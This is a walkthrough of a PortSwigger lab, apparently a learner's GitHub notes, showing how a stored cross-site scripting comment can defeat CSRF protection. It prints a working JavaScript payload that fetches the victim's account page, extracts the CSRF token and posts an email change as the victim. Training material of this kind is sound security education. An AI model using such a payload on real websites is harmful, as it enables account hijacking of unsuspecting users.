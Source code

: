## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/26c6204e-8658-4c2e-a811-9990eb2ca7c5)

## Solution :

Log in using the credentials provided. On your user account page, notice the function for updating your email address.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/23fa623a-9610-48d0-9067-3ea11ca475b5)

 ‘Your email is:’ has been updated to your new email.

 >what we see here is cross-site request forgery token and the idea  is we can't post to this particular endpoint and change our passward without the cross site request forgery token this really what stops us from being able change the email of anthor user because simply we won't have access to their cross -site request forgery token there is a situation where the token is not going to able to protect a user from someone changing their eamil and that if there is also a possible cross-site  scripting attack the idea behind
cross-site scripting attack is it can execute arbitary javascript in the victim's and it has access to the Dom and can access the cross-site request forgry token so javascript can take that token and submit a malicious request on behalf of the victim.

Crafting the Payload

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5b2d26c1-137b-438d-a7c2-a0abd2fc74cb)

This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`

Lab Solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/452cd425-877c-46b8-8436-5cae335e9630)


